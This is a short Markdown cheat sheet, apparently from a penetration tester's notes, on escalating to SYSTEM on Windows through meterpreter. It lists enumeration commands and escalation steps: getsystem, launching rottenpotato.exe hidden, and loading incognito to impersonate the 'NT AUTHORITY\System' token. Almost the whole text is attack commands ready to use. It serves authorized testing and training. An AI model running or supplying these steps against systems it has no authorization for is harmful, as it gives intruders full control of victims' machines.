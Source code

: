 # Metasploit

## 01 - Enumerate

### 1.1 - Post Module

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

### 1.2 - Interactive Shell

```
meterpreter > getuid

meterpreter > getprivs
```

## 02 - Exploit

### 2.1 - Getsystem

```
meterpreter > getsystem -t 5
```

### 2.2 - Interactive Shell

If service is not running as SYSTEM.

```
meterpreter > execute -Hcf rottenpotato.exe

meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token "NT AUTHORITY\System"
 ```

If service is running as Administrator.

```
meterpreter > list_tokens -u

meterpreter > impersonate_token "NT AUTHORITY\System"
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Vulnerable Software/Kernel Exploits/C2 Frameworks/Metasploit|Kernel Exploits: Metasploit Framework]]